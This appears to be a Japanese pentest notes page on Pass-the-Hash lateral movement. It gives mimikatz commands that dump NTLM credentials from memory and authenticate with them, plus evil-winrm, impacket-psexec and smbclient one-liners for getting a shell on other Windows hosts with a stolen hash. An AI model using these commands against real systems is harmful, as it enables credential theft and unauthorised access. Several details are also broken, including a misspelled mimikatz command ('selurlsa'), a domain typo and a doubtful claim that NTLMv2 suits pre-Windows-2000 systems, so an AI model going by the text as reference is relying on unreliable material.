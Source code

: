 # Lateral Movement

## Pass The Hash

### 概要

- New technology LAN Manager認証の仕組みを悪用
- NTLMハッシュ値使用
- 解析なしで標的にアクセスできるため、複雑なパスワードが設定されていても攻撃可能
- NTLMv2認証はWindows 2000以前の古いOSに対応
- ローカルユーザのNTLMハッシュ値は SAMデータベースに保存
- ドメインユーザのNTLMハッシュはドメコン上のNTDS.ditに保存
- NTハッシュは平文をMD4でハッシュ化ソルトは付与しないため、同じ平文をMD4でハッシュ化したものと一致する。

#### 手順(mimikatz)

※管理者権限が必要

以下の場合に有効
> 侵入した端末のユーザが標的の場合、侵入した端末に対してRDP接続したユーザが標的の場合

- mimikatzを起動してNTLMハッシュを取得

``` cmd
    [mimikatzのパス].\mimikatz.exe
    
    privilege::debug
    selurlsa::logonpasswords
```

メモリ上に残存している認証情報を取得

- 起動中のmimikatzでNTLM認証を行う

``` cmd
    sekurlsa::pth /user:[username]　/ntlm:[NTLMハッシュ値] /domain:[somainname] /run:cmd.exe
```

NTLM認証を行った`cmd.exe`起動する。

起動した`cmd.exe`上で`PsExec`を使用することでパスワードなしで別端末にログインできる。

#### Pass The Hashで使用されるツール

- evil-winrm

winrmを使用したリモート接続が可能
> 接続用の認証情報と標的端末でWinRMが有効になっていることが必要

```shell
    evil-winrm -u [username] -H [NTLMハッシュ] -i [Target IP address]
```

[evil-winrm](https://github.com/Hackplayers/evil-winrm)

- Impacket(psexec.py)

Active Directoryに対してpsexecでPtHを行いシェル操作を行う。

SMBを使用して標的上でサービスを起動しコマンドを実行する。
> 標的上のローカル管理者を保持、管理共有(ADMIN$)とファイル/プリンタの共有が有効化されていることが必要

- mimikatzで取得したNTLMハッシュを使用する。

``` shell
    impacket-psexec -hashes [0を32個で埋める]:[NTLMハッシュ]　Administrator@[windows server IP address]
    # -hashes LM hash:NT hash LMハッシュ使用しないので0を32個埋める0000... 
```

[psexec.py](https://github.com/fortra/impacket/blob/master/examples/psexec.py)

- 管理共有にアクセスすると実行ファイルを確認できる

``` shell
    smbclient //[Windows Server IPアドレス]/ADMIN$ -U Administrator
```
